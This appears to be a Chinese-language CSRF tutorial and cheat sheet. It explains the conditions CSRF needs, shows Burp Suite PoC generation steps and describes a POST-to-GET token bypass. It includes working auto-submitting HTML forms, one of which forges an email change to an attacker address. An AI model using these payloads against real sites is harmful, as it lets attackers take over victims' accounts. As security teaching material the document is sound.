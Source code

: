 # 简介

跨站请求伪造（也称为 CSRF）是一种网络安全漏洞，攻击者可以利用该漏洞诱导用户执行他们无意执行的操作。它允许攻击者部分规避同源策略，该策略旨在防止不同网站相互干扰。

要使 CSRF 攻击成为可能，必须满足三个关键条件：

- 相关操作。应用程序内存在攻击者有理由诱导执行的操作。这可能是特权操作（例如修改其他用户的权限）或任何针对用户特定数据的操作（例如更改用户自己的密码）。

- 基于 Cookie 的会话处理。执行该操作需要发出一个或多个 HTTP 请求，并且应用程序仅依赖会话 Cookie 来识别发出请求的用户。没有其他机制来跟踪会话或验证用户请求。

- 没有不可预测的请求参数。执行该操作的请求不包含任何攻击者无法确定或猜测其值的参数。例如，当用户更改密码时，如果攻击者需要知道现有密码的值，则该函数不会受到攻击。

虽然 CSRF 通常与基于 Cookie 的会话处理相关，但它也出现在应用程序自动将一些用户凭据添加到请求的其他情况下，例如 HTTP 基本身份验证和基于证书的身份验证。

基本有效负载用于在网页打开时自动提交请求。

```
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```



# 测试CSRF

## 基本步骤

```
1. 在 Burp Suite Professional 中的任意位置选择要测试或利用的请求。
2. 从右键单击上下文菜单中，选择“参与工具/生成 CSRF PoC”。
3. Burp Suite 将生成一些 HTML 代码来触发所选请求（不包含 Cookie，Cookie 将由受害者的浏览器自动添加）。
4. 您可以调整 CSRF PoC 生成器中的各种选项，以微调攻击的各个方面。在某些特殊情况下，您可能需要执行此操作来处理请求的奇特特性。
5. 将生成的 HTML 代码复制到网页中，在登录到易受攻击网站的浏览器中查看，并测试预期请求是否成功发出以及是否发生了所需的操作。
```



## 绕过方法-1：将请求方法更改为 POST → GET

```
测试用例：CSRF 令牌的验证取决于请求方法

1. 与功能交互并拦截请求。
2. 将此请求发送到中继器，然后右键单击更改请求方法。
3. 删除所有 CSRF 参数并生成 CSRF POC。
4. 根据您的偏好进行编辑，例如：

<!DOCTYPE html>
<html>
<!-- CSRF PoC - 由 Burp Suite i0 SecLab 插件生成 -->
<body>
<form method="GET" action="https://ac591fd21f4ab3d2807a1b1d0007000d.web-security-academy.net:443/email/change-email?email=natsu%40natsu.com">
<input type="text" name="email" value="natsu@natsu.com">
</form>
<script>
document.forms[0].submit();
</script>
</body>
```